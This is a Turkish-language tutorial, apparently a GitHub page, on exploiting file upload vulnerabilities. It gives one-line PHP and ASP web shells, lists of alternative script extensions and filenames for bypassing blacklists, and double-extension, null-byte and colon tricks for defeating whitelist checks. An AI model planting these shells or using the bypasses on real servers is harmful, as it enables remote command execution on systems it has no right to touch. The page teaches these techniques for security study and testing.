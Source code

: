 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```

### Whitelist
Whitelist Örneği:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Kod, dosya adının whitelisted resim uzantılarını içerip içermediğini regex ile kontrol ediyor. Sorun şu regex yalnızca dosya adının uzantıyı içerip içermediğine bakıyor, dosya adının uzantı ile bitip bitmediğini kontrol etmiyor. Regex sadece dosya adında izin verilen uzantıyı aradığı için, basit bir yöntem double extension kullanmak. Örneğin .jpg izinliyse, dosya adını shell.jpg.php yapabiliriz.

Bazı uygulamalar daha katı regex kullanır:
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```

Bu regex yalnızca dosya adının son uzantısını kontrol eder. Önceki saldırı burada işe yaramaz. Ancak bazı durumlarda, web sunucusu konfigürasyonu nedeniyle hala istismar edilebilir.

Örnek Apache Konfigürasyonu:
```
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

#### Character Injection
İzin verilen uzantıdan önce veya sonra bazı karakterler ekleyerek web uygulamasının dosya adını yanlış yorumlamasını sağlayabiliriz.
Örnek karakterler:
``` 
%20, %0a, %00, %0d0a, /, .\, ., …, :
```

Örnek:
- shell.php%00.jpg → PHP 5.X veya daha eski sürümlerde %00 sonrası dosya adı kesilir ve shell.php olarak kaydedilir, whitelist testi geçer.
- Windows sunucularda, kolon : eklenerek benzer bypass sağlanabilir (örn. shell.aspx:.jpg).
